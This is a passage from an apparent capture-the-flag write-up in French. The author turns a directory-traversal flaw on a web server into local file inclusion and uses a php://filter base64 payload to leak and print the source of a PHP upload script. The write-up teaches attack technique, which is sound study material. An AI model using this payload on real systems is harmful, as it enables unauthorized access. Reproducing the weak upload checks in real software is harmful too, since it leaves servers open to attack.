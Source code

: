 Par logique je teste la présence d'un dossier `uploader` puis je trouve un fichier `upload.php` dont je tente de fuiter le code via la faille de directory traversal.

Le chemin du fichier est `/var/www/development/uploader/upload.php`.

Le code PHP semble interprété ce qui signifie que la faille est une LFI.

Pour obtenir le code PHP je fais précéder le path d'un filtre PHP pour encoder le contenu en base64 et ainsi empêcher l'interprétation :

`php://filter/convert.base64-encode/resource=/var/www/development/uploader/upload.php`

Je peux alors décoder le base64 et obtenir le code source :

```php
<?php
$target_dir = "FRANKuploads/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
$uploadOk = 1;
$imageFileType = strtolower(pathinfo($target_file,PATHINFO_EXTENSION));
// Check if image file is a actual image or fake image
if(isset($_POST["submit"])) {
    $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
    if($check !== false) {
        echo "File is an image - " . $check["mime"] . ".";
        $uploadOk = 1;
    } else {
        echo "File is not an image.";
        $uploadOk = 0;
    }
}
// Check if file already exists
if (file_exists($target_file)) {
    echo "Sorry, file already exists.";
    $uploadOk = 0;
}
// Check file size
if ($_FILES["fileToUpload"]["size"] > 500000) {
    echo "Sorry, your file is too large.";
    $uploadOk = 0;
}
// Allow certain file formats
if($imageFileType != "jpg" && $imageFileType != "png" && $imageFileType != "jpeg"
&& $imageFileType != "gif" ) {
    echo "Sorry, only JPG, JPEG, PNG & GIF files are allowed.";
    $uploadOk = 0;
}
// Check if $uploadOk is set to 0 by an error
if ($uploadOk == 0) {
    echo "Sorry, your file was not uploaded.";
// if everything is ok, try to upload file
} else {
    if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
        echo "The file ". basename( $_FILES["fileToUpload"]["name"]). " has been uploaded to my uploads path.";
    } else {
        echo "Sorry, there was an error uploading your file.";
    }
}
?>
```
